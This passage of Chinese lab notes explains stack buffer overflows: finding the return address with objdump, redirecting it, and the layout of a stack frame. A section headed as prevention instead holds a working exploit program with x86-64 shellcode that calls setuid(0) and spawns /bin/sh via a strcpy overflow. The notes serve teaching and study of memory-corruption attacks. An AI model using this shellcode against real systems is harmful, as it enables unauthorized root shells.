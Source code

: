 使用`objdump`反编译，查看`main()`函数和`function()`函数的汇编码

![1556174467371](assets/1556174467371.png)

![1556174509375](assets/1556174509375.png)

可以看到,变量a的位置在`-0x18(%rbp)`处，而64位系统中，使用8个字节存储`ret`,也就是说，想要取得返回地址，需要往回找$16+8+8 = 32$个字节，而栈中是从高地址到低地址，所以`a`的地址+32个字节就是返回地址：`ret = (unsigned long*)((char*)&a + 32) ;`

返回地址原来的位置是`x = 1`也就是`1189`,我们期望的的返回地址则是`1190`，相减`0x1190 - 0x1189 = 7`,所以返回地址+7:`(*ret)+= 7;`

首先是由于call指令而跳转到函数的，最上面存放的是`ret`指令，然后是定义栈底指针`ebp`，然后定义栈顶指针`esp`初始和`ebp`指向同一个位置，然后分配栈空间，由于栈在内存中是从大到小分配，所以分配栈空间的代码如：`sub $ox10, %esp`,然后再栈中存放基本数据结构和引用数据结构头部。函数执行完以后`ret`指令执行，`ip`指针从子函数返回主程序。

### 1.4 如何防止缓冲区溢出攻击

```c
char *shellcode = "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05";

char large_string[256];

void main() {
        char buffer[96];
        int i;
        unsigned long *long_ptr = (unsigned long *) large_string;
        for (i = 0; i < 32; i++)
                *(long_ptr + i) = (unsigned long) buffer;
        for (i = 0; i < strlen(shellcode); i++)
                large_string[i] = shellcode[i];

        strcpy(buffer,large_string);
}
```